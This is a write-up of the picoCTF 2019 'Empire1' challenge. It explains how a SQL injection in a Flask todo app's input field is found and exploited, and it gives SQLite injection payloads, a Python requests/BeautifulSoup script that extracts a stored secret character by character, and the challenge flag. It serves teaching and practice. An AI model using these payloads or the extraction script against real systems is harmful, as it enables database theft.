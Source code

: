<h3>Challenge #10 Empire1</h3>

<blockquote><i>Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/27357/ (link) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:27357</i></blockquote>  

<p>In this challenge we have a site with login and register form.</p>  

<p>First things first I inspected the page to see if there is any hidden login logic in some form of script,which wasn't the case.After creating a user and logging in I've caught one thing.The session cookie looked quite odd: </p>

```javascript
session=.eJwlj0FqQzEMRO_idRayJEt2LvORZYmGQAv_J6vSu8fQWb95zPyWI8-4vsr9db7jVo7HKveCHTAqM7r6cFhdIeoO2-i0eA6UEUnihrMFk5upSGJl9UWQMmf20Rc1arAWmyaw6OC6Teg5g5XSWptrRjRMbyYA5hvZEiq34teZx-vnGd97jxNn776BUWVgtypNOhFNNVimwO48XXbvfcX5f4LK3wdBOT5K.XmPcqA.dDQLm8QVYSADCJMay9b9Rh3dpc0
```

<p>So I had to determine in what framework the server was written. From previous picoCTF's i guessed with Flask. So I've tried decoding the cookie. And I was right since this JSON object was result of it.</p>  

```javascript  
{
    "_fresh": true,
    "_id": "2802e1442c7c9c0d870e11114a983d4b9269ef36ca2b5e43caa766f2147cd30f6bbf898d35350dd4a7f04679418702cfbe473fa55bdbee52fc5a600ac7942143",
    "csrf_token": "c34f88c0ac916928a16568333b7a0da704cc4bc6",
    "user_id": "3"
}  
```  
<p>So we do see that user_id value is 3.</p><br>
<p>Have in mind<quote>Flask, by default, uses the URL-safe signed serializer "itsdangerous" to encode its client-side session cookies. A Flask app uses a secret key to sign the session cookie so that the client can't modify it.</quote><br>  
Which means if we could spoof the secret key we would be able to modify the cookie by swapping the value to 1 which would be admin value , and get the session cookie for admin.</p>  

<p>So I've registered account with some random name and then you can see the multiple pages as a user.You see Employees listing,Add todo ,Your todos.  
Empoyees listing was interesting because it looks like a typical SQL table , 3 columns with fields Employee id, Username, Name.<br> Then in Add Todo we have a input field where we can input some text and that is going into list on the page Your Todos.
<br><br>
First I've tried testing the input simply with providing <b>ASCII alphabet</b> you can either google or just make this one liner in python :</p><br>
<code>"".join(chr(x) for x in range(32,127))</code>

<p>That instantly crashed and gave me internal server 500 error.<br>After that I tried all upper and lowercase letters from A-Z. Which didn't show any strange behaviour. However when I tried single quotes ' and other math logical operators and some of them crashed again.  
<br>
I've tried simple classic SQL injection for authentication OR 1 '=' 1 which weirdly evaluated to 0. <br>
That was very weird and i had to realize what is being filtered out.</p>  

<p>I've tried doing '+ 12 +' which evaluated into 12.So i've tried simple expression '+ 1 + 2  +' which evaluated into 3. Which was pretty nice.<br> I was getting somewhere with that.</p>   

<p>After that I tried taking it step further and making query so i tried '+ SELECT +' and that crashed. So i realized that those words must be filtered and i wanted to try query inside of parantheses . <br>  
So i've tried '+ (SELECT 1) +' and that evaluated to 1. From that point i determined that i can do <b>queries</b>.</p>  

<p>Next I would have to enumerate what engine of sql is running on so I can focus on injecting payload for that type of SQL. There are various functions for certain type of engine to get the version info. The one that worked was '+ <code>sqlite_version()</code> +' that returned me the 3.22 which confirmed it is SQLite engine. </p> 

<p>Now we have to try to get info of our database , specifically table and columns etc.</p>

<p>There are some interesting methods that could give you information that you are looking for, like:PRAGMA functions, 
sqlite_master as main schema holder.</p> 

<p>So first thing i wanted to know is the name of the table.</p>  
<code> '+ (SELECT hex(name) FROM sqlite_master) +'</code>
<br>
<p>With this you can extract table name by using hex value for name parameter,this resulted in 75736572 which is <b>"user"</b>. <br>Good so far we have name of our table.
<br>
After that i wanted to to extract the name of columns , most likely trying to find something like password or similar column name.</p>  

<br>  
<p>The straight away i tried checking if there is column with name of password or secret by doing :</p>  
<br>
<code>'+(SELECT 1 FROM PRAGMA_TABLE_INFO("user") WHERE name="secret") +'</code><br>  
<p>Which actually returned 1 (password returned 0) and that was pretty positive for knowing that the column with name secret exist which should mean that should be column for user passwords.Now remember the part of the hint <q><i>"Can you first find the secret code they assigned to you?</i></q><br>Let's try that : <br>  
<code> '+(select hex(secret) from user where name="asd") +'</code> </p> 
<br>  
Not surprisingly that returned us 7069636 converted to ASCII (as 7069636)  = "pic" <br>  
Which seems like the part of the flag because we know that flag is starting with picoCTF{...}  
Very interesting..  

But there is one more detail in here.Starting with the question why are we only getting 3 letters, flag is usually longer.<br>  
2 conclusions arrives :  
<li>characters are getting truncuted a-f as hexadecimal digit</li>
<li>number is 32 bit integer truncated</li>

So how do we work around this? Substring for number truncation,we get only 1 digit number at a time that means it is truncated , 2 digit number it's not truncated,only above 8 digit number gets truncated(we got only 7 digits from our secret).  
So we are definitely going to make a script for generating requests and collecting the output digits.  
<br>  
Our request payload should have query like this :<br>
<code>'+ (SELECT hex(substr(secret,0,1))  FROM user where id="3") +'</code>  

<p>The idea is to make request till i reach reach number 0 as an output which would indicate that the value ends there. Once i collect all the hexadecimal digits,the single digits should be compared with (a,b,c,d,e,f) and one of those could give me missing part of the whole flag.</p>

<p>So I've made a <a href="https://github.com/DejanJS/picoCTF-Writeups-2019/blob/master/10.Empire1/script.py">script</a> that will do this for us.</p>

<p>Let's explain what is going on in this script:</p>  

You are going to need some scraping library , I've used Beautiful Soup,since response that we need is being generated inside of the other page and csrf token is binded to input field, so you have to keep session alive.  

```python  

import requests
import json
from bs4 import BeautifulSoup
import string

i = 0
result = []
a_to_f = [w for w in string.ascii_lowercase[:6]]
my_session = requests.Session()
register = my_session.get('https://2019shell1.picoctf.com/problem/27357/login')
soup = BeautifulSoup(register.text,'html.parser')
csrf = soup.find(id="csrf_token").get('value')

login = my_session.post('https://2019shell1.picoctf.com/problem/27357/login',data={'csrf_token':csrf,'username':'e','password':123})
item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
soup2 = BeautifulSoup(item_list.text,'html.parser')
items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]  
```  

After that we have to post our data with our sql injection query and collect results of our response : <br>  
```python  
while True:
  i = i + 1
  my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT hex(substr(secret,{i},1))  FROM user where id='3') +'"})
  item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
  soup2 = BeautifulSoup(item_list.text,'html.parser')
  items = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')]
  if '0' in items:
    #pop 0
    items.pop()
    result.extend(items)
    break  
```  

At the end we have to go through results and loop over possible values of hexadecimals digits , but the best way is to make post once again by substringing and comparing each letter that we already got other possible letters as hexadecimals that we got(which means if we make something like <code>'+ (SELECT (substr(secret,4,1)='o') FROM user where id='3') </code><br>  ,for example)
Response for correct letter is going to be 1 and 0 for non existent .  
```python  
if len(result) > 0:
    for idx,res in enumerate(result):
        if len(res) == 1 and res != "0":
            result[idx] = {'hex':res,'possible_values':[bytearray.fromhex(res + ch).decode() for ch in a_to_f]}
            for k in result[idx]["possible_values"]:
              print(f"Testing {idx} for {k}...")
              my_session.post('https://2019shell1.picoctf.com/problem/27357/add_item',data={'csrf_token':csrf,'item':f"'+ (SELECT (substr(secret,{idx+1},1)='{k}')  FROM user where id='3') +'"})
              item_list = my_session.get('https://2019shell1.picoctf.com/problem/27357/list_items')
              soup2 = BeautifulSoup(item_list.text,'html.parser')
              item = [ item.next_sibling.strip('  \n\t') for item in soup2.find_all('strong')][-1]
              print("ITEM : " ,item)
              if item == '1':
                result[idx] = k
                break
        else:
           result[idx] = bytearray.fromhex(res).decode()


print('FLAG : ',"".join(result))  
```  

And we get the flag : <br>
<code><b>picoCTF{wh00t_it_a_sql_inject9899be1a}</b></code>